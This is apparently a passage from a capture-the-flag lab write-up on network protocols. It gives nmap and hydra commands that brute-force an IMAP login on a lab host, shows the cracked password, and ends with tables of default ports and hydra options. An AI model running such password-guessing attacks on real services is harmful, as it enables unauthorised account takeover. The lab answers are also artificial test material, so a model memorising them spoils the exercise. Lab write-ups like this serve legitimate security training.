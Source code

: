 ##   Answer the questions below

**We learned that one of the email accounts is lazie. What is the password used to access the IMAP service on 10.10.140.139?**

1. ``nmap -sC -sV 10.10.140.139 -T 4 -F`` IMAP service is on port 143
2. ``hydra -t 16 -l lazie -P /usr/share/wordlists/rockyou.txt imap://10.10.140.139``
3. ``[143][imap] host: 10.10.140.139   login: lazie   password: butterfly``

* * *

## Task 7 - Summary 

It is good to remember the default port number for common protocols.

| Protocol | TCP Port | Application(s) | Data Security |
|----------|----------|----------------|---------------|
| FTP | 21 | File Transfer | Cleartext |
| FTPS | 990 | File Transfer | Encrypted |
| HTTP | 80 | Worldwide Web | Cleartext |
| HTTPS | 443 | Worldwide Web | Encrypted |
| IMAP | 143 | Email (MDA) | Cleartext |
| IMAPS | 993 |  Email (MDA) | Encrypted |
| POP3 | 110 | Email (MDA) | Cleartext |
| POP3S | 995 | Email (MDA) | Encrypted |
| SFTP | 22 | File Transfer | Encrypted |
| SSH | 22 | Remote Access and File Transfer | Encrypted |
| SMTP | 25 | Email (MTA) | Cleartext |
| SMTPS | 465 | Email (MTA) | Encrypted |
| Telnet | 23 | Remote Access | Cleartext |

Hydra remains a very efficient tool that you can launch from the terminal to try the different passwords. We summarize its main options in the following table.

| Option | Explanation |
|--------|-------------|
| ``-l username`` | Provide the login name |
| ``-P WordList.txt`` | Specify the password list to use |
| ``server service`` | Set the server address and service to attack |
| ``-s PORT`` | Use in case of non-default service port number |
| ``-V`` or ``-vV`` | Show the username and password combinations being tried |
| ``-d`` | Display debugging output if the verbose output is not helping |

* * * 



